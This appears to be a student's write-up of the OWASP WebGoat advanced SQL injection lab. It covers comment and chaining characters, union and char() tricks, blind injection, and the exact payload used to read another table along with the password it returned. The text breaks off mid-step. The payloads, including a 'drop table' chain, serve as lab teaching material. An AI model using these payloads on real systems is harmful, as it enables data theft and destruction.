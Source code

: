 # SQL Injection (advanced)
Special Characters
```
/* */ 	 are inline comments
-- , # 	 are line comments

Example: Select * from users where name = 'admin' --and pass = 'pass'
```

```
;        allows query chaining

Example: Select * from users; drop table users;
```

```
',+,||	 allows string concatenation
Char()	 strings without quotes

Example: Select * from users where name = '+char(27) or 1=1
```

Special Statements
- Unions	allows overlapping of database tables 'Select id, text from news union all select name, pass from users'
- Joins allows connecting to other tables

## Pulling Data From Other Tables
Code used:
```
Dave' ; select * from user_system_data; --
```

Dave's password:
```
passW0rD
```

![alt text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/3%20pulling%20data%20from%20other%20tables.PNG?token=ANjmpjtrBwt5Xner3U9Ab5iw9YyQ3HF-ks5buFlnwA%3D%3D)

## Blind SQL Injection
- Asks the database true or false questions
- Determines the answer based on the applications response
- Often used when the web application is configured to show generic error messages
- BUT has not mitigated the code that is vulnerable to SQL injection.

### Difference
- Normal SQL Injection:
  - error messages from the database are displayed
  - gives enough information to find out how the query is working
- Blind SQL Injection
  - application does not reflect the information directly on the webpage
  - so in the case where nothing is displayed
  - have to start asking the database true or false questions.
  - therefore blind SQL injection much more difficult to exploit.

## Blind SQL Injection Exercise
Steps taken:
- Use Burp to catch the request at 
